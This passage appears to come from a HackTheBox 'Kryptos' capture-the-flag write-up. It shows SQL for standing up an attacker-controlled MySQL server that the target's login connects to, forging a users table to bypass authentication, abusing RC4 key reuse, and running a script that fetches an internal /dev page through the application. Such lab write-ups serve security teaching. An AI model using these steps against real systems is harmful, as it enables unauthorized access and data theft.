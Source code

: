 We then have to create the user "dbuser" with the password we got earlier, the db "cryptor" and allow remote access:

```
CREATE USER 'dbuser'@'%' IDENTIFIED BY 'krypt0n1te';
CREATE DATABASE cryptor;
GRANT ALL PRIVILEGES ON cryptor.* TO 'dbuser'@'%' IDENTIFIED BY 'krypt0n1te';
FLUSH PRIVILEGES;
```

After triggering the injection again we can see a connection request and the login query:

```
Connect    dbuser@kryptos as anonymous on cryptor
            38 Query    SELECT username, password FROM users WHERE username='xct' AND password='0db9774b86aa5a219a0939cdd5c5aa08'
```

This means we have to now create a table users with the columns username and password. The password seems to be the md5 hash of what we entered in the login field (md5("xct")).

```
use cryptor;
CREATE TABLE users ( id smallint unsigned not null auto_increment, username varchar(64) not null, password varchar(64) not null,  constraint pk_example primary key (id) );
INSERT INTO users ( id, username, password ) VALUES ( null, 'xct', '0db9774b86aa5a219a0939cdd5c5aa08' );
```

After logging in again we finally get into the application:

![](htb_kryptos_login_success.png)

Unfortunately there is still quite some way to go to get the user flag. With the encrypt functionality of the application we can make a get request to an arbitrary url and encrypt it with RC4 or AES. Since RC4 is basically a fancy xor cipher and is often misused, we encrypt a sample url with it, decode the base64 and encrypt it again. Decoding the resulting base64 gives back the plaintext! This means that the key is reused on encryption, therefore enabling us to decrypt the cipher text with the encrypt method.

At this point we have not found anything yet that we could retrieve with our new powers. Running dirb against the server shows however that there exists a "/dev" folder (which gives 403 for us). In order to automate requesting files via the encrypt/decrypt process I wrote a small [script](https://gist.github.com/xct/98a752829b867da588fac1840a2a6db2).

Doing a request for "/dev/index.php" via the encrypt method gives back a result:

```
python3 xct.py get 10.10.16.66 8000 enpq2gj8fe359a9dnivtsvl3ma http://127.0.0.1/dev/index.php\?view\=todo

<html>
    <head>
    </head>
    <body>
    <div class="menu">
        <a href="index.php">Main Page</a>
        <a href="index.php?view=about">About</a>
        <a href="index.php?view=todo">ToDo</a>
    </div>
<h3>ToDo List:</h3>
1) Remove sqlite_test_page.php
<br>2) Remove world writable folder which was used for sqlite testing
<br>3) Do the needful
<h3> Done: </h3>
1) Restrict access to /dev
<br>2) Disable dangerous PHP functions

</body>
```